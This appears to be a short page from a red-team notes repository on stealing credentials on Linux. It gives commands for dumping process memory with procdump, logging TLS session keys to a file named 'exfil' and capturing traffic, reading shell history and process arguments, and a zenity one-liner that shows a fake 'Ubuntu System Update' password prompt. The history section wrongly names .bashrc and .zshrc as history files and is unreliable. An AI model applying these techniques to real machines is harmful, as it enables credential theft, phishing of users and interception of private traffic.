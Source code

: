 # Linux
---
# Navigation
1. **[Procdump](#Procdump)**
2. **[Decrypting TLS traffic using TLS key logging Not working on latest firefox and chrome](#Decrypting%20TLS%20traffic%20using%20TLS%20key%20logging%20Not%20working%20on%20latest%20firefox%20and%20chrome)**
3. **[Peeking at shell command-line history files](#Peeking%20at%20shell%20command-line%20history%20files)**
4. **[Command line arguments](#Command%20line%20arguments)**
5. **[Spoofing a credential prompt via zenity on Linux](#Spoofing%20a%20credential%20prompt%20via%20zenity%20on%20Linux)**
---
#  Procdump
```bash
# Download procdump
wget -q https://packages.microsoft.com/config/ubuntu/$(lsb_release -rs)/packages-microsoft-prod.deb -O packages-microsoft-prod.deb
sudo dpkg -i packages-microsoft-prod.deb
sudo apt update -y
sudo apt-get install procdump

# Dump a process
procdump -p <PID>
```
> **Important Note:**
> Dumping a root process requires a root privilege.

---

#  Decrypting TLS traffic using TLS key logging (Not working on latest firefox and chrome)
In order to decrypt TLS traffic, TLS key logging can be leveraged, which is a feature that will write TLS sessions keys to a user-defined location. The location can be specified via the **SSLKEYLOGFILE** environment.
```bash
export SSLKEYLOGFILE=/tmp/exfil
```
- **Now lets capture network traffic**
```bash
tcpdump -s 0 -i <interface> -w mycap.pcap
```
- **Finally analyze with wireshark**

---

# Peeking at shell command-line history files
- History file location
```bash
/home/<USER>/.bashrc
# Vary depending on the shell type
# Ex: .zshrc
```
---
# Command line arguments
```bash
# "w" will expand the args
ps auxwww
```
---

# Spoofing a credential prompt via zenity on Linux
```bash
PWD=$(zenity --password --text "Ubuntu Update needs your password: " --title "Ubuntu System Update") 2>/dev/null 
```